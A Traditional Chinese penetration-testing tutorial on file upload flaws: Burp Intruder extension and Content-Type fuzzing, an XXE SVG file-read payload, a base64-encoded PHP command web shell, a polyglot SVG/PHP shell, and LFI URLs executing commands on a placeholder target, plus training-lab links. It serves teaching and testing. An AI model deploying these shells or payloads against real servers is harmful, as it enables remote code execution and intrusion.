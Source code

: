 # File uploads

## <mark style="color:red;">**1. 發現點**</mark>&#x20;

1. **個人相片上載**
2. **資料上載**&#x20;
3. **任何東西上載**

## <mark style="color:red;">**2. 測試Payload**</mark>

#### **1️⃣ 啟動 Burp Suite & 攔截請求**

1. **開啟 Burp Suite**
2. **確保 Intercept 開啟**：
   * 進入 **Proxy** > **Intercept is on**（確保攔截功能開啟）
3. **嘗試上傳一個合法的 `.jpg` 圖片**
   * 在 Web 應用中選擇一張 **正常的圖片**（`test.jpg`）
   * 點擊 **上傳**，Burp Suite 應該會攔截這個請求

***

#### **2️⃣ 送請求到 Intruder**

1. **在 Burp 中右鍵請求**
   * `右鍵` → `Send to Intruder` (`Ctrl + I`)
2. **切換到 Intruder 標籤**
   * 點擊 **Intruder** > **Target**
   * 確保 **目標 URL** 是正確的（檢查 `Host`）

***

#### **3️⃣ 設定攻擊點 (Positions)**

1. 進入 **Positions** 分頁
2. 點擊 `Clear §` **清除預設標記**
3. **手動標記測試點**：
   *   **文件名擴展名測試點**

       ```
       filename=shell§.jpg§
       ```
4. 觀察回應
5. 確保 `Attack type` 選擇 **Sniper**（單點測試）

***

#### **4️⃣ 設定 Payloads**

#### **📌 測試文件擴展名繞過**

1. **切換到 `Payloads` 分頁**
2. **Payload Set** 選擇 **1**
3. **Payload type** 選擇 **Simple list**
4. **輸入以下可能繞過的擴展名**：
5. **手動標記測試點**：
6.  **文件名擴展名測試點**

    ```
    filename=shell§.jpg§
    ```
7. [PHP extensions.list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
8. [ASP Extensions ASP 擴充](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)
9. [Web Extensions 網路擴充](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
10. **取消勾選**「對這些字元進行 URL 編碼」（`URL-encode these characters`）

***

#### 5️⃣ **設定 Payloads**

#### **📌 測試 Content-Type 繞過**

1. **選擇 `Payload Set 2`**
2. **Payload type** 選擇 **Simple list**
3. ```sh
   wget https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-all-content-types.txt
   ```
4. ```sh
   cat web-all-content-types.txt | grep 'image/' | xclip -se c
   ```
5.  **輸入可能繞過的 `Content-Type`**

    ```
    image/jpeg
    image/pjpeg
    image/gif
    image/png
    text/plain
    application/octet-stream
    application/x-php
    multipart/form-data
    ```
6. **取消勾選**「對這些字元進行 URL 編碼

## <mark style="color:red;">3. 如果文件成功上傳，但無法執行，可以透過 LFI 讀取 Web Shell！</mark>

**使用 XXE 提取上傳文件內容**

1️⃣ **發送 XXE 載荷來讀取上傳文件的內容**：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php">
]>
<svg>&xxe;</svg>
```

2️⃣ **回應可能會包含 Base64 編碼的 Web Shell**：

* 使用 `base64 -d` 來解碼：

```bash
becho "PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pg==" | base64 -d
```

**如果已知 Web Shell 存放路徑，可以利用 LFI 直接執行：**

```
http://target.com/index.php?file=../../uploads/shell.php&cmd=whoami
```

```
http://target.com/index.php?file=php://filter/convert.base64-encode/resource=../../uploads/shell.php
```

upload.php 的資料，然後知道儲存的位置

## <mark style="color:red;">**4.bypass技巧**</mark>

```
cat << 'EOF' > shell.phar.svg    
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg> <?php system($_REQUEST['cmd']); ?>
EOF

```

{% file src="../.gitbook/assets/php_to_jpeg (4).py" %}

{% file src="../.gitbook/assets/php_to_pdf (1).py" %}

{% file src="../.gitbook/assets/php_to_png (1).py" %}

{% file src="../.gitbook/assets/php_to_svg (1).py" %}

{% file src="../.gitbook/assets/php_to_zip (1).py" %}

```
http://target.com/index.php?file=../../uploads/shell.php&cmd=whoami
```

```
http://target.com/index.php?file=php://filter/convert.base64-encode/resource=../../uploads/shell.php
```

## <mark style="color:red;">5. 訓練</mark>

⭐

[File upload vulnerabilities](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)

⭐⭐

[透過路徑遍歷上傳 Web shell](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

⭐⭐⭐

[透過多語言 Web Shell 上傳執行遠端程式碼](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

[⭐⭐⭐⭐](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

[透過競爭條件上傳 Web shell](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

⭐⭐⭐⭐⭐

{% embed url="https://www.file.io/" %}

{% embed url="https://academy.hackthebox.com/module/136/section/1310" %}

[https://www.youtube.com/watch?v=V\_CkT7xyiCc\&list=PLidcsTyj9JXItWpbRtTg6aDEj10\_F17x5\&index=3](https://www.youtube.com/watch?v=V_CkT7xyiCc\&list=PLidcsTyj9JXItWpbRtTg6aDEj10_F17x5\&index=3)
